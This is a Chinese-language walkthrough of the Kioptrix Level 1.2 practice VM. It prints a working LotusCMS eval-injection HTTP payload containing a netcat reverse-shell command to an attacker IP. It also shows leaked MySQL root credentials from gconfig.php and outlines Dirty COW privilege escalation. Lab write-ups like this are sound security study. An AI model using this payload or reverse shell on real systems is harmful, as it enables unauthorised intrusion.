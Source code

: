 # KIOPTRIX LEVEL 1.2 (#3)

![image-20230208012456505](/image/image-20230208012456505.png)

安装好，虚拟机使用桥接模式，和物理机划分到同一个网段。

kali运行arp-scan -l 扫描同网络上的所有主机，确定靶机的ip。端口探测后生成报告![image-20230208012826498](/image/image-20230208012826498.png)

查看80端口web服务![image-20230208012853777](/image/image-20230208012853777.png)

![image-20230208012927828](/image/image-20230208012927828.png)

使用的是lotuscms，搜索了历史版本的漏洞，有一个公开了的RCE，payload如下

```
POST /index.php HTTP/1.1
Host: 192.168.3.115
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

page=index');${system('nc -e /bin/sh 192.168.3.201 12345')};#"
```

漏洞成因是代码里使用了eval函数，后续的system函数会执行恶意的命令，从eval函数的代码执行到远程命令执行

读取gconfig.php

```
<?php
        error_reporting(0);
        /*
                A sample Gallarific configuration file. You should edit
                the installer details below and save this file as gconfig.php
                Do not modify anything else if you don't know what it is.
        */

        // Installer Details -----------------------------------------------

        // Enter the full HTTP path to your Gallarific folder below,
        // such as http://www.yoursite.com/gallery
        // Do NOT include a trailing forward slash

        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

        // Setting Details -------------------------------------------------

if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                echo("A connection to the database couldn't be established: " . mysql_error());
                die();
}else {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                echo("The Gallarific database couldn't be opened: " . mysql_error());
                die();
        }else {
                $settings=mysql_query("select * from gallarific_settings");
                if(mysql_num_rows($settings)!=0){
                        while($data=mysql_fetch_array($settings)){
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                        }
                }

        }
}

?>

```

拿到shell后，wget下载脏牛提权

![image-20230208104049307](/image/image-20230208104049307.png)

![image-20230208104113650](/image/image-20230208104113650.png)

成功添加用户，并添加到root组

ssh登录。用脏牛提权生成的账号firefart登录，获取到root权限，通关


